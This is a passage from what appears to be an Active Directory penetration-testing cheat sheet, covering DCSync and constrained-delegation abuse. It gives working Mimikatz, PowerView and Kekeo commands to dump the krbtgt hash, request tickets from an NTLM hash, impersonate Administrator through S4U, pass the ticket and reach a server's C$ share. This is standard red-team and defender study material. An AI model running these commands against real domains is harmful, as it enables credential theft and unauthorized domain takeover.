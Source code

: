 - Run DCSync once the ticket is injected to confirm we are running as Domain Admin

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:test\krbtgt"'
```

### Constrained Delegation

- Discover computers and users which have constrained delegation enabled using PowerView_dev (make sure to check the UserAccountControl field to see if the object has TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION, and make sure to check msDS-AllowedToDelegateTo field to see what service the object can delegate to)

```
PS C:\> Get-DomainComputer -TrustedToAuth
PS C:\> Get-DomainUser -TrustedToAuth
```

- Discover computers and users which have constrained delegation enabled using ActiveDirectory Module (make sure to check the UserAccountControl field to see if the object has TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION, and make sure to check msDS-AllowedToDelegateTo field to see what service the object can delegate to)

```
PS C:\> Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

- Request a TGT using asktgt from Kekeo (must have either the plaintext password or NTLM hash of the account that has constrained delegation enabled e.g. websvc account in our scenario)

```
PS C:\> .\kekeo.exe
kekeo # tgt::ask /user:websvc /domain:<Domain Name> /rc4:cc098f204c5887eaa8253e7c2749156f
```

- Use the TGT to request a TGS as ANY user e.g. Administrator using S4U from Kekeo for a service the account (websvc) has access to through constrained delegation

```
kekeo # tgs::s4u /tgt:TGT_websvc@TEST.DOMAIN.LOCAL_krbtgt~test.domain.local@TEST.DOMAIN.LOCAL.kirbi /user:Administrator@test.domain.local /service:cifs/test-mssql.test.domain.LOCAL
```

- Use Mimikatz to ptt the TGS

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@test.domain.local@TEST.DOMAIN.LOCAL_cifs~test-mssql.test.domain.LOCAL@TEST.DOMAIN.LOCAL.kirbi"'
```

- Confirm we have access to the CIFS service as Administrator (will only have access to the file system)

```
PS C:\> ls \\test-mssql.test.domain.local\c$
```

- Abuse constrained delegation using Rubeus by requesting a TGT and TGS in a single command
